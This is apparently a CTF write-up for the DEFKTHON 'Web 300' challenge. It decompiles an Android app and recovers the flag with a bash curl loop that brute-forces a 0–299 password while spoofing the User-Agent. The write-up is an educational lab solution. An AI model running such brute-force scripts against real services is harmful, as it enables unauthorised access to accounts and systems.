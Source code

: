 # DEFKTHON CTF: Web 300

**Description:**

> [we love it!](web300.apk)

## Write-up

We’re given an Android application package file, [`web300.apk`](web300.apk). `*.apk` files are essentially zip files with a different extension. If you rename it to `web300.apk.zip` and extract it, you’ll see it contains a `classes.dex` file. `*.dex` files are compiled Android application code files, containing bytecode for the Dalvik Virtual Machine (the workhorse powering the Android system).

Let’s convert the bytecode in the `classes.dex` file back to a `*.jar` file [using `dex2jar`](https://code.google.com/p/dex2jar/):

```bash
$ d2j-dex2jar web300.apk
dex2jar web300.apk -> web300-dex2jar.jar
```

Now, `*.jar` files are essentially zip files too. We can just rename `web300-dex2jar.jar` to `web300-dex2jar.jar.zip` and unzip it to unpack its contents. Alternatively, this command has the same result:

```bash
$ jar xf web300-dex2jar.jar
```

In this case, the resulting source files aren’t easily readable, so let’s use a decompiler. Open `web300-dex2jar.jar` in [JD-GUI](http://jd.benow.ca/). Now we can view all the source code, or go to _File_ → _Save All Sources_ to save the sources so we can view them in our preferred text editor.

The `com.example.defkthonapp/MainActivity` class looks interesting:

```java
private Runnable Check = new Runnable()
{
  public void run()
  {
    TelephonyManager localTelephonyManager = (TelephonyManager)MainActivity.this.getSystemService("phone");
    String str1 = localTelephonyManager.getDeviceId();
    String str2 = localTelephonyManager.getSimSerialNumber();
    int i = new Random().nextInt(300);
    ((WebView)MainActivity.this.findViewById(2131230723)).postUrl("http://challenges.defconkerala.com/web/300/update.php", EncodingUtils.getBytes("pwd=" + Integer.toString(i) + "&imei=" + str1 + "&div=" + str2, "BASE64"));
  }
};
private EditText paswd;
```

So, the app performs a POST request to `http://challenges.defconkerala.com/web/300/update.php` with `pwd=$password&imei=$deviceID&div=$simSerialNumber` as POST data. The `$deviceID` and `$simSerialNumber` never change for the same device, only the `$password` does — and it is a random integer from 0 (inclusive) to 300 (exclusive).

Testing reveals that the `$deviceID` and `$simSerialNumber` aren’t validated in any way on the server, so we can just use bogus values for them. The `User-Agent` request header seems to be checked though — if it doesn’t contain `Android`, the following response is sent:

```
We love android !!
```

Setting `_Android` as the `User-Agent` header seems to work.

Let’s brute-force the password and see what happens. I wrote a quick shell script for this:

```bash
#!/usr/bin/env bash

deviceID='1337';
simSerialNumber='1337';
user_agent='_Android';

url='http://challenges.defconkerala.com/web/300/update.php';

for password in {0..299}; do
  data="pwd=${password}&imei=${deviceID}&div=${simSerialNumber}";
  curl -s --user-agent "${user_agent}" --data "${data}" "${url}" | grep 'Flag';
done;
```

Let’s run it:

```bash
$ ./web300.sh
Flag is: w00tkitk@t
```

The flag is `w00tkitk@t`.

## Other write-ups

* none yet

